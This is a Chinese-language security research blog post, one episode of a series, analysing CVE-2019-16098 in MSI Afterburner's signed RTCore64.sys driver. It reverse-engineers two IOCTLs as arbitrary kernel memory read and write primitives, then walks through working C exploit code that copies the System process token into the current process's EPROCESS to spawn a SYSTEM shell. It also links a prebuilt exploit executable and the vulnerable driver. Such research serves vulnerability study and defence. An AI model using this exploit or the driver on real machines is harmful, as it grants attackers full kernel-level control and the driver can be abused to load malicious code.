

# 【第 14 話】CVE-2019-16098 研究－任意讀寫虛擬記憶體

## 文章大綱
這篇要說明 CVE-2019-16098 的漏洞成因，然後利用 RTCore64.sys 的任意讀寫漏洞竄改 EPROCESS Token 達成提權。


## 介紹 CVE-2019-16098
首先來看看 [CVE-2019-16098](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16098) 在 MITRE 的描述。

The driver in Micro-Star MSI Afterburner 4.6.2.15658 (aka RTCore64.sys and RTCore32.sys) allows any authenticated user to read and write to arbitrary memory, I/O ports, and MSRs. This can be exploited for privilege escalation, code execution under high privileges, and information disclosure. These signed drivers can also be used to bypass the Microsoft driver-signing policy to deploy malicious code.

直接用列點的方式抓重點。
- 軟體：[Micro-Star MSI Afterburner](https://tw.msi.com/Landing/afterburner/graphics-cards) 4.6.2.15658
- 元件：RTCore64.sys
- 漏洞成因：任意讀寫記憶體、I/O Port、MSR
- 影響：提權、Kernel 任意執行

從我的 GitHub 下載目標驅動程式檔案 [RTCore64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2019-16098/bin/RTCore64.sys)。對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 RTCore64.sys 的數位簽章資訊，是 2017 年 8 月 27 日的簽章。




## 逆向分析
IDA 開啟 RTCore64.sys 後看 `DriverEntry` 可以快速找到 Dispatcher 的函數位址與 Symbolic Link Name `RTCore64`。


雖然 RTCore64.sys 的漏洞很多，不過這篇會針對任意讀寫，攻擊漏洞達成提權。

分析 IoControlCode 0x80002048 可以看到程式把攻擊者可控的 SystemBuffer 當成指標讀取位址所指向的記憶體內容，然後寫回攻擊者可讀的記憶體，導致任意讀的漏洞。


分析 IoControlCode 0x8000204C 則可以發現程式讀取攻擊者可控的 SystemBuffer，將值寫入攻擊者可控的任意位址，導致任意寫的漏洞。


## 攻擊腳本
程式主要參考專案 [Barakat/CVE-2019-16098](https://github.com/Barakat/CVE-2019-16098)，我更改了 ntoskrnl.exe 起始位址的取得方法和一些程式邏輯並加上註解。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2019-16098)。

程式步驟如下。
1. 取得 `PsInitialSystemProcess` 的位址
2. 讀取 System 的 EPROCESS Token
3. 迴圈找出當前 Process 的 EPROCESS 位址
4. 竄改當前 Process 的 EPROCESS Token

### 1. 取得 PsInitialSystemProcess 的位址
在[【第 13 話】CVE-2020-17382 研究－Buffer Overflow（下）](/asset/第%2013%20話)有介紹取得 ntoskrnl.exe 起始位址的方法。這裡用同個方式在拿到 ntoskrnl.exe 起始位址後，搭配 [LoadLibraryW](https://learn.microsoft.com/zh-tw/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryw) 和 [GetProcAddress](https://learn.microsoft.com/zh-tw/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress) 算出 `PsInitialSystemProcess` 的 Offset，其中 `PsInitialSystemProcess` 是指向 System EPROCESS 的 Windows Kernel 全域變數。

```c
// 取得 ntoskrnl.exe 的起始位址
INT64 NtoskrnlBaseAddress = (INT64)GetBaseAddr("ntoskrnl.exe");

// 1. 用 LoadLibrary 和 GetProcAddress 取得 PsInitialSystemProcess 的位址
HMODULE Ntoskrnl = LoadLibraryW(L"ntoskrnl.exe");
const DWORD64 PsInitialSystemProcessOffset =
    (DWORD64)(GetProcAddress(Ntoskrnl, "PsInitialSystemProcess")) - (DWORD64)Ntoskrnl;
FreeLibrary(Ntoskrnl);
const DWORD64 PsInitialSystemProcessAddress =
    ReadMemoryDWORD64(Device, NtoskrnlBaseAddress + PsInitialSystemProcessOffset);
```

### 2. 讀取 System 的 EPROCESS Token
有了 System 的 EPROCESS 位址後，利用 RTCore64.sys 的任意讀漏洞就能讀取 System 的 EPROCESS Token。

```c
// 利用 RTCore64.sys 的任意讀漏洞讀取 Kernel 記憶體
DWORD ReadMemoryPrimitive(HANDLE Device, DWORD Size, DWORD64 Address)
{
    RTCORE64_MEMORY_READ_WRITE MemoryRead {};
    MemoryRead.address = Address;
    MemoryRead.size = Size;

    DWORD BytesReturned;

    DeviceIoControl(Device, 0x80002048, &MemoryRead, sizeof(MemoryRead), &MemoryRead, sizeof(MemoryRead), &BytesReturned,
                    nullptr);

    return MemoryRead.value;
}

// 從指定 Kernel 記憶體中讀取 8 bytes
DWORD64 ReadMemoryDWORD64(HANDLE Device, DWORD64 Address)
{
    return ((DWORD64)(ReadMemoryPrimitive(Device, 4, Address + 4)) << 32) | ReadMemoryPrimitive(Device, 4, Address);
}

int main()
{
    ...
    // 2. 利用 RTCore64.sys 的任意讀漏洞讀取 System 的 EPROCESS Token
    const DWORD64 SystemProcessToken = ReadMemoryDWORD64(Device, PsInitialSystemProcessAddress + TokenOffset) & ~15;
    ...
}
```

### 3. 迴圈找出當前 Process 的 EPROCESS 位址
跟[【第 10 話】Windows Kernel Shellcode](/asset/第%2010%20話) 相同原理，從 System 的 EPROCESS ActiveProcessLinks 開始迴圈尋找當前 Process 的 EPROCESS。

```c
// 3. 迴圈找出當前 Process 的 EPROCESS 位址
const DWORD64 CurrentProcessId = (DWORD64)GetCurrentProcessId();
DWORD64 ProcessHead = PsInitialSystemProcessAddress + ActiveProcessLinksOffset;
DWORD64 CurrentProcessAddress = ProcessHead;

do
{
    const DWORD64 ProcessAddress = CurrentProcessAddress - ActiveProcessLinksOffset;
    const DWORD64 UniqueProcessId = ReadMemoryDWORD64(Device, ProcessAddress + UniqueProcessIdOffset);
    if (UniqueProcessId == CurrentProcessId)
    {
        break;
    }
    CurrentProcessAddress = ReadMemoryDWORD64(Device, ProcessAddress + ActiveProcessLinksOffset);
} while (CurrentProcessAddress != ProcessHead);

CurrentProcessAddress -= ActiveProcessLinksOffset;
```

### 4. 竄改當前 Process 的 EPROCESS Token
找到當前 Process 的 EPROCESS 後，利用 RTCore64.sys 的任意寫漏洞將 Token 竄改為 System 的 EPROCESS Token，然後跳出有 System 權限的 cmd。

```c
// 利用 RTCore64.sys 的任意寫漏洞寫入 Kernel 記憶體
VOID WriteMemoryPrimitive(HANDLE Device, DWORD Size, DWORD64 Address, DWORD Value)
{
    RTCORE64_MEMORY_READ_WRITE MemoryRead {};
    MemoryRead.address = Address;
    MemoryRead.size = Size;
    MemoryRead.value = Value;

    DWORD BytesReturned;

    DeviceIoControl(Device, 0x8000204c, &MemoryRead, sizeof(MemoryRead), &MemoryRead, sizeof(MemoryRead), &BytesReturned,
                    nullptr);
}

// 從指定 Kernel 記憶體中寫入 8 bytes
VOID WriteMemoryDWORD64(HANDLE Device, DWORD64 Address, DWORD64 Value)
{
    WriteMemoryPrimitive(Device, 4, Address, Value & 0xffffffff);
    WriteMemoryPrimitive(Device, 4, Address + 4, Value >> 32);
}

int main()
{
    ...
    // 4. 利用 RTCore64.sys 的任意寫漏洞寫入 System 的 EPROCESS Token
    // 竄改當前 Process 的 EPROCESS Token
    WriteMemoryDWORD64(Device, CurrentProcessAddress + TokenOffset, SystemProcessToken);

    system("cmd");
    ...
}
```


## 測試
1. 在 VM 中載入 [RTCore64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2019-16098/bin/RTCore64.sys)
2. 用一般使用者權限執行 [CVE-2019-16098.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2019-16098/bin/CVE-2019-16098.exe)，會看到一個 cmd 跳出來
3. 輸入 `whoami` 會看到已經成功提權 `system`

## 參考資料
- [Barakat/CVE-2019-16098](https://github.com/Barakat/CVE-2019-16098)
- [Windows kernel global variables](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/mm64bitphysicaladdress)
- [CVE-2019-16098](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16098)